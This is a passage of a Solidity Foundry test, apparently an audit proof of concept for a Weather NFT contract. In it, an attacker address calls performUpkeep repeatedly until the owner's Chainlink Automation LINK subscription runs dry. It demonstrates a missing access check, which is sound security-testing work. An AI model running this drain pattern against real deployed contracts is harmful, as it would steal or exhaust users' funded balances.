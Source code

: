 ```solidity
        vm.deal(user, 1000e18);
        deal(address(linkToken), user, 1000e18);

        // Fund the subscription for Chainlink Automation
        vm.prank(user);
        linkToken.transferAndCall(functionsRouter, 1e18, abi.encode(15459));
    }

    function test_performUpkeep_DrainLink() public {
        // Mint a Weather NFT and register for automation
        vm.startPrank(user);
        linkToken.approve(address(weatherNft), 5e18);
        vm.recordLogs();
        weatherNft.requestMintWeatherNFT{value: weatherNft.s_currentMintPrice()}("125001", "IN", true, 12 hours, 5e18);
        vm.stopPrank();

        // Get the requestId for oracle fulfillment from logs
        bytes32 reqId;
        Vm.Log[] memory logs = vm.getRecordedLogs();
        for (uint256 i = 0; i < logs.length; i++) {
            if (logs[i].topics[0] == keccak256("WeatherNFTMintRequestSent(address,string,string,bytes32)")) {
                (,,, reqId) = abi.decode(logs[i].data, (address, string, string, bytes32));
                break;
            }
        }

        // Simulate oracle fulfillment and complete minting
        vm.prank(functionsRouter);
        weatherNft.handleOracleFulfillment(reqId, abi.encode(WeatherNftStore.Weather.RAINY), "");
        vm.prank(user);
        weatherNft.fulfillMintRequest(reqId);

        // Encode tokenId for upkeep
        uint256 tokenId = weatherNft.s_tokenCounter() - 1;
        bytes memory performData = abi.encode(tokenId);
        bool reverted = false;

        // Repeatedly call performUpkeep to simulate LINK draining
        // Each call will send a new weather data request, draining the Chainlink Automation subscription balance
        for (uint256 i = 0; i < 100; i++) {
            vm.prank(attacker);
            try weatherNft.performUpkeep(performData) {
                // No revert, continue testing
            } catch {
                // Check if the revert was due to insufficient LINK balance
                reverted = true;
                break;
            }
        }
        // At least one revert must occur
        assertTrue(reverted, "Should revert when LINK balance is exhausted");
    }
}
```
